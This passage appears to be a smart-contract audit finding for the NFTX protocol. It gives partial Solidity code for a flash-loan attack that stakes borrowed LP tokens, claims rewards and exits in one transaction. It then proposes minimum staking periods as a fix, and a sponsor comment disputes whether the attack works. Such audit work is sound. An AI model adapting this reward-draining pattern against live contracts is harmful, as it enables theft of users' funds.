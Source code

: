     // onEthFlashLoan is called by the line EthFlashLoanProvider.borrowFlashLoan() in attackVaultWithId() (flashloans use a callback structure in order to revert if the flash loan is not paid back).

    function onEthFlashLoan(...) external {

        NFTXVaultUpgradeable(vaultAddress).flashLoan( /* this calls onFlashLoan() in between mint and burn */
            address(this),
            vaultAddress,
            NFTXVaultUpgradeable(vaultAddress).maxFlashLoan(vaultAddress),
            ''
        );

    }

    // onFlashLoan is called by the line NFTXVaultUpgradeable.flashLoan() in onEthFlashLoan() (flashloans use a callback structure in order to revert if the flash loan is not paid back).
    function onFlashLoan(address sender, address token, uint256 amount, uint256 fee, bytes data) external {

        UniswapRouter(uniswapRouterAddress).addLiquidity(token, etherAddress, amount, ...);

        uint256 lpTokenBalance = ERC20(uniswapLPAddress).balanceOf(address(this));
        ERC20(token).approve(nftxLpStakingAddress, lpTokenBalance);
        NFTXLPStaking(nftxLpStakingAddress).deposit(targetVaultId, lpTokenBalance);

        NFTXLPStaking(nftxLpStakingAddress).claimRewards(targetVaultId);

        NFTXLPStaking(nftxLpStakingAddress).exit(targetVaultId);

        UniswapRouter(uniswapRouterAddress).removeLiquidity(token, etherAddress, amount, ...);

        return NFTX_FLASH_LOAN_RETURN_VALUE;
    }

}


#undefined

Require that staked LP tokens be staked for a particular period of time before they can be removed. Although a very short time frame (a few blocks) would avoid flash loan attacks, this attack could still be performed over the course of a few blocks less efficiently. Ideally, you would want the rewards to reflect the product of the amount staked and the duration that they've been staked, as well as having a minimum time staked.

Alternatively, if you really want to allow people to have the ability to remove their stake immediately, then only allow rewards to be claimed for stakes that have been staked for a certain period of time. Users would still be able to remove their LP tokens, but they could no longer siphon off rewards immediately.



### Log:
- [0xKiwi labeled](https://github.com/code-423n4/2021-05-nftx-findings/issues/88) Disputed
### Comments:
**[0xKiwi commented](https://github.com/code-423n4/2021-05-nftx-findings/issues/88#issuecomment-845695223):**
 > After looking at the code, this is not possible. The dividend token code takes into consideration the current unclaimed rewards and when a deposit is made that value is deducted.  
